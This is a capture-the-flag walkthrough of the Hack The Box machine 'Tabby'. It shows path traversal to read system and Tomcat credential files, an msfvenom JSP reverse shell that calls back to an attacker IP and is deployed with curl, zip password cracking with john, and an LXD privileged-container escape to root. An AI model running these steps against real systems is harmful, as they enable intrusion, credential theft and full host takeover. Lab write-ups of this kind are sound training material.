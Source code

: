 # Tabby  

Okay So yesterday I just finished an insane difficulty box and now it's time to do the opposite, finish a box but reaaallly quick  
Tabby is going to be inactive tomorrow so I'll have to finish in the day, I like to challenge myself those days

## Enumeration

Let's start with enumeration as always, and we get an ssh, 80 (apache httpd) and 8080 (apache tomcat)  
On the website (port 80) I can see a header with dead links but the news one isn't dead and apparently it fetch a file, let's try stg basic, let's add the relative path of a known file like ../../../etc/hosts and add ../ until we get a result, and it appears it is 5 ../ and we got our /etc/hosts file, so let's grab a more interesting one.  
After looking at /etc/passwd I observe that tomcat is really present and so after a bit of googling apparently I can just grab infos from file so Let's check the default installation path and have a look in it.  

## Tomcat

So apparently the default installation path is /usr/share/tomcat9 and then you have the users informations under $TOMCAT_PATH/etc/tomcat-users.xml so let's have a look but I got an empty page
But having a deeper look at the tomcat demo, the code is xml and so markup, html just don't recognize and don't show it so go under the network tab and grab the raw message to see: 

```xml
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

Better than I excepted, a password :))
So after a look at tomcat process, I can with this password access the /manager part of the website and in the /text part upload stg, so let's upload a reverse shell to get control of the server and do some privilege escalation
So, as tomcat is a java process, let's generate a java reverse shell as a .war file and upload it with curl
As I'm lazy let's do it with msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.124 LPORT=1337 -f war > rom1.war`
So now let's create a curl uploader:

```sh
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T rom1.war 'http://10.10.10.194:8080/manager/text/deploy?path=/rom1'
```

## Reverse Shell

Alright then now let's open a listener with nc and trigger my webshell by opening *http://10.10.10.194:8080/rom1* and boom we got a shell on my listener, and I'm connected as tomcat.  
Let's spawn a bash shell (pls my eyes are bleeding rn) with `python3 -c 'import pty;pty.spawn("/bin/bash")'`  
Then go under /var/www/html to see if there is any file, and there is one called "backup.zip", setup a python server from your reverse shell and wget the file to your local machine and crack the password, I used john:

```sh
zip2john backup.zip > zip.hashes
john zip.hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

And a password shows up (admin@it), let's try it to sudo as the only user on the machine and boom i got the user.txt

## Privilege escalation

So on the home we can see that the user own a alpine file and in the id stg refere to lxd which is a container for linux.  
This can be correlated.  
So I started to dig down [THIS](https://reboare.github.io/lxd/lxd-escape.html) website but apparently the machine doesn't allow me to interact with the web to fetch an image so I'll have to import one by myself.  
So I headed up to [This Article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)!  
So let's create an alpine locally with [This](https://github.com/saghul/lxd-alpine-builder) and create a webserver and upload it.  
Once done let's create the lxd and exploit it like so: 

```sh
lxc image import ./alpine-v3.12-x86_64-Rom1.tar.gz --alias rom1
lxc init rom1 rom1container -c security.privileged=true
lxc config set rom1container security.privileged=true
lxc start rom1container
lxc config device add rom1container rootdisk disk source=/ path=/mnt/root recursive=true
lxc exec rom1container /bin/sh
```

Once finished you should have a sh in another machine (the alpine one) and as you mounted the / folder recursively if you got under /mnt, you'll see your files with total access to it, so let's access our root directory and grab the root.txt

Well done this box is now pwned !!!  
I had a lotta fun doing it and it was tbh harder than what I excepted  
